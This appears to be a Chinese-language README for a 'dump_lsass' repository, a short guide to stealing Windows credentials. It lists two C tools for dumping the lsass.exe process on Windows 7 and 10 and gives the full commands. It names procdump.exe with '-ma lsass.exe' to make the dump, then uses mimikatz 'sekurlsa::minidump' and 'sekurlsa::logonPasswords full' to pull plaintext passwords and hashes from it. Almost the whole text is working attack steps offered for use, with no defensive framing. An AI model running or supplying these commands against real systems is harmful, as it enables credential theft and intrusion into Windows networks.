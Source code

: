 # dump_lsass
一个dumpWindows系统lsass.exe进程的工具

dump_lsass_for_Win7_x64.c和dump_lsass_for_Win10_x64.c是国外一位大佬写的lsass.exe进程dump工具，参考链接：https://osandamalith.com/2019/05/11/shellcode-to-dump-the-lsass-process/

procdump.exe是一个微软官方的进程转储工具，主要用于抓取崩溃进程的内存数据，下载地址：https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump

第1步：转储lsass.exe进程

使用prodump.exe转储（需要管理员权限）

procdump.exe -accepteula -ma lsass.exe lsass_dump

或者使用dump_lsass_for_Win*_x64.exe转储（需要管理员权限）

dump_lsass_for_Win7_x64.exe
dump_lsass_for_Win10_x64.exe

第2步：利用mimikatz读取密码，lsass_dump.dmp为保存dump数据的文件

mimikatz.exe "sekurlsa::minidump lsass_dump.dmp" "sekurlsa::logonPasswords full" exit


